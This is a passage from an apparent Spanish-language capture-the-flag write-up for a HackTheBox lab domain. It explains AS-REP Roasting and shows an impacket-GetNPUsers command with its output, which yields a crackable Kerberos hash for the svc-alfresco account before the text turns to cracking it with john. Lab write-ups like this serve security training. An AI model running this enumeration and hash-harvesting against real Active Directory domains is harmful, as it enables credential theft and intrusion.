 ¿Qué es un AS-REP Roasting?

Un ataque de AS-REP Roasting se aprovecha de una mala configuración en los usuarios, más concretamente al tener activa la flag "DONT_REQUIRE_PREAUTH", cuando un usuario tiene esta flag activa nosotros como atacantes vamos a ser capaces de ver su TGT (Ticket Granting Ticket) que posteriormente intentaremos crackear. Para realizar este ataque, necesitaremos una lista de usuarios sobre la que probar.

```plaintext
❯ impacket-GetNPUsers htb.local/ -no-pass -usersfile users
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8d5e62b5eb294fd30e5731ee6d823af1$868e0a28b6cdfb776c93e282f41f92505644e85c61532ef673e339ee9efa2f72f211d133c780ec8152980e3bddd4e853fee9307b76ea5394065febf0d3308c84394d840bf6e6d7849180b33b8860c3f18343ac5aa344870f742baf071bdad656f52ad4b1be0e91d801913ea67d2f54e920a0a091e72c595f1d1248b2cf16f6b032f8562cfa8377ebb865ba2c5d04f6b22f727bf8f480d2062b63aa9cec449fa5cce3623fa06bad5a36098302c17ad8f53c4d6278d363ad70f81a1b57c2a5b91b83ea491a06677f305575acc39828f6d01be778e9b4f6759cb2230e6c7e58d6a217ccc248ef5e
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Vemos que hemos conseguido el Ticket TGT del usuario "svc-alfresco", vamos a intentar crackearlo con `john` para conseguir su contraseña.
